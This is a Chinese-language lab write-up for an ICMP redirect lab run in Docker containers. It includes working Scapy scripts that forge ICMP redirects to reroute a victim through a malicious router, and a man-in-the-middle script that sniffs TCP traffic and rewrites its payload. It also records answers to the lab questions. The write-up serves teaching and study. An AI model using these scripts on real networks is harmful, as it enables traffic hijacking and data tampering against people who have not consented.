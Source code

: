 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# ICMP Redirect

!!! warning "在 Ubuntu 24.04 中的改动"

	如果直接在 24.04 中启动实验容器，会遇到：
	
	![](../../../../../assets/Pasted%20image%2020250513172909.png)
	
	> 这是因为 `sysctls` 块通常用于设置容器全局的内核参数，而像 `eth0` 这样的接口是在容器启动并连接到网络之后才确定的。Docker 为了更精确地控制网络接口相关的参数，要求这类配置通过特定的驱动选项来传递
	> —— Gemini 2.5 Pro
	
	因此我们要对 docker-compose.yml 进行如下修改：
	
	```yaml
	sysctls: 
		- net.ipv4.ip_forward=1 
		- net.ipv4.conf.all.send_redirects=0 
		- net.ipv4.conf.default.send_redirects=0 
		# 移除: - net.ipv4.conf.eth0.send_redirects=0 
	privileged: true
	volumes: 
		- ./volumes:/volumes 
	networks: 
		net-10.9.0.0: 
			ipv4_address: 10.9.0.111 
	command: bash -c "
		 # 在容器启动后尝试设置 eth0 的参数 
		 sysctl -w net.ipv4.conf.eth0.send_redirects=0 && 
		 ip route add 192.168.60.0/24 via 10.9.0.11 
		 && tail -f /dev/null 
		 "
	```
	
	重新启动容器即可进行接下来的实验

## 任务 1：发起 ICMP 重定向攻击

在受害者容器 `victim-10.9.0.5` 中运行 `ip route`，输出如下：

![](../../../../../assets/Pasted%20image%2020250513174214.png)

在攻击者容器中编写代码如下：

```python title="icmp_redirect.py"
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
# Type 5 表示重定向, Code 1 表示主机重定向
icmp = ICMP(type = 5, code = 1)
# 在 ICMP 负载中设置网关地址 (恶意路由器)
icmp.gw = "10.9.0.111"

# ICMP 重定向包必须携带触发它的原始 IP 数据包
ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

首先在受害者容器中显示路由缓存并清空：

![](../../../../../assets/Pasted%20image%2020250513174805.png)

保持在受害者容器中 `ping 192.168.60.5`，然后在攻击者容器中运行代码，并在受害者容器中进行 traceroute 操作：

![](../../../../../assets/Pasted%20image%2020250513192753.png)

会发现受害者容器的路由已经改变

- 问题 1：修改代码如下：

```python
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code = 1)
icmp.gw = "192.168.60.6"

ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

同上理运行代码，能得到：

![](../../../../../assets/Pasted%20image%2020250513193209.png)

可以看到没能实现攻击

- 问题二：修改代码如下：

```python
from scapy.all import *

ip = IP(src = "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code = 1)
icmp.gw = "10.9.0.99"

ip2 = IP(src="10.9.0.5", dst="192.168.60.5")
send(ip / icmp / ip2 / ICMP())
```

同上理运行代码，能得到：

![](../../../../../assets/Pasted%20image%2020250513193544.png)

还是没能实现攻击

- 问题三：在恶意路由器容器中设置：

```bash
sysctl -w net.ipv4.conf.all.send_redirects=1
sysctl -w net.ipv4.conf.default.send_redirects=1
sysctl -w net.ipv4.conf.eth0.send_redirects=1
```

然后重新发起正确的 ICMP 重定向攻击，得到：

![](../../../../../assets/Pasted%20image%2020250513195945.png)

仍然是不能实现攻击的
***
## 任务 2：发起 MITM 攻击

首先在恶意路由器上禁用 IP 转发：

![](../../../../../assets/Pasted%20image%2020250513201025.png)

查看受害者容器的 MAC 地址：

![](../../../../../assets/Pasted%20image%2020250513201728.png)

保持受害者容器 `ping 192.168.60.5`，然后在攻击者容器中运行 `icmp_redirect.py`，在恶意路由器上编写如下代码并运行：

```python title="mitm.py"
from scapy.all import *

def spoof_pkt(pkt):
	newpkt = IP(bytes(pkt[IP]))
	del(newpkt.chksum)
	del(newpkt[TCP].payload)
	del(newpkt[TCP].chksum)
	
	if pkt[TCP].payload:
		data = pkt[TCP].payload.load
		print("*** %s, length: %d" % (data, len(data)))
		
		newdata = data.replace(b'BruceJin', b'AAAAAAAA')
		
		send(newpkt / newdata)
	else:
		send(newpkt)
	
f = 'tcp and ether src 42:16:51:ac:9e:0c'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

在目标容器 192.168.60.5 上启动 netcat 服务，并在受害者容器中连接到服务器，输入名字，会发现变成了 AAAAAAAA：

![](../../../../../assets/Pasted%20image%2020250513202209.png)

![](../../../../../assets/Pasted%20image%2020250513202218.png)

说明攻击成功

- 问题 4：我们只需要过滤出从 victim 到 host 的数据流量，因为我们就是要在这里将数据篡改使得 host 收到的是错误信息即可
- 问题 5：我们把过滤条件换成 A 的 IP 地址：

```python
from scapy.all import *

def spoof_pkt(pkt):
	newpkt = IP(bytes(pkt[IP]))
	del(newpkt.chksum)
	del(newpkt[TCP].payload)
	del(newpkt[TCP].chksum)
	
	if pkt[TCP].payload:
		data = pkt[TCP].payload.load
		print("*** %s, length: %d" % (data, len(data)))
		
		newdata = data.replace(b'BruceJin', b'AAAAAAAA')
		
		send(newpkt / newdata)
	else:
		send(newpkt)
	
f = 'tcp and src host 10.9.0.5'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

同样也可以达到效果：

![](../../../../../assets/Pasted%20image%2020250513203353.png)

![](../../../../../assets/Pasted%20image%2020250513203405.png)

但是会发现 mitm.py 这里一直在发包：

![](../../../../../assets/Pasted%20image%2020250513203442.png)

这是因为它捕获到了自己发送的报文，发送完又捕获到了，陷入了死循环
